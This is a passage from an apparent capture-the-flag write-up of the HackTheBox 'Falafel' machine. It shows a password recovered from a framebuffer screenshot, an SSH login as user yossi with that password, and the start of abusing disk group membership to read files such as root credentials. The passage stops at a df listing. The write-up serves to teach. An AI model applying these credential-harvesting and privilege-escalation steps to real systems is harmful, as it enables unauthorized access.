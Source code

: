       cpb: bitrate max/min/avg: 0/0/200000 buffer size: 0 vbv_delay: N/A
frame=    1 fps=0.0 q=5.7 Lsize=      46kB time=00:00:00.04 bitrate=9339.0kbits/s speed= 1.7x    
video:46kB audio:0kB subtitle:0kB other streams:0kB global headers:0kB muxing overhead: 0.000000%
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x]
└─$ @@xdg-open screenshot.jpg@@
{% endhighlight %}

From the output of the command, we can see that the tool converts the frame to the `mjpeg` format. Then, it uses this data to create a single `JPEG` image which is saved in a file named "screenshot.jpg". If we open this file using `xdg-open`, we see that the `yossi` user is trying to use the `passwd` command to change the password of his account. The first time, however, he mistakenly typed his password in cleartext. Although we can't see what password he set in his successful attempt, we can strongly suspect that it is `MoshePlzStopHackingMe!`.

![screenshot](/assets/{{ imgDir }}/screenshot.png)

We can attempt to authenticate as `yossi` over SSH using this password. Upon doing so, we discover that the password is correct and that we obtain a shell as `yossi`!

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@ssh yossi@10.10.10.73@@
yossi@10.10.10.73's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Sun May  1 19:42:33 2022
yossi@falafel:~$ @@groups@@
yossi adm @@@disk@@@ cdrom dip plugdev lpadmin sambashare
yossi@falafel:~$
{% endhighlight %}

If we check the groups of the `yossi` user, we discover that this user is a member of the `disk` group. This is interesting since members of the `disk` group can read and alter any files on any hard drives. We could abuse this to read sensitive files which could, for example, contain credentials for the `root` user. By executing `df`, we can list what hard drives are available on the target host. 

{% highlight none linenos %}
yossi@falafel:~$ @@df@@
Filesystem     1K-blocks    Used Available Use% Mounted on
udev              487824       0    487824   0% /dev
tmpfs             101604    4656     96948   5% /run
@@@/dev/sda1@@@        7092728 2354532   4354864  36% /
tmpfs             508008       0    508008   0% /dev/shm
tmpfs               5120       0      5120   0% /run/lock
tmpfs             508008       0    508008   0% /sys/fs/cgroup
tmpfs             101604       0    101604   0% /run/user/1000
yossi@falafel:~$
{% endhighlight %}
